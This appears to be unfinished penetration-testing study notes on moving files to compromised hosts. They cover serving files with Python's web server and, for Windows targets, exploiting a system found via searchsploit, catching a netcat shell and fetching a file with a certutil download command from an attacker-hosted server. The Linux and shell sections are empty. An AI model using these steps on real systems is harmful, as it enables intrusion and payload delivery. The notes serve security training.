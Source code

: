 ## Transferring Files

#####  set up webserver with python
Two step approach where you need to host the files you want to transfer on a web server (1) and download the files hosted on the web server to the target system (2). 

**SimpleHTTPServer = python2
http.server = python3** 

- copy file: `cp path/file.exe .` 
- set up http server: 
	- with python2: `python -m SimpleHTTPServer port`
	- with python 3: `python3 -m http.server port`


##### Transfer to windows targets

- exploit vulnerability with searchsploit
- read comments in exploit file 
- start http server in correct location where file is stored: 
- set up netcat listener 
- simple command shell session is established (if it did not work run again )

transfer file to target system in `tmp` directory 
in a command shell, download file: `certutil -urlcache -f http://adres_webserver:port  `


##### Transfer to linux targets 




















## Shells 

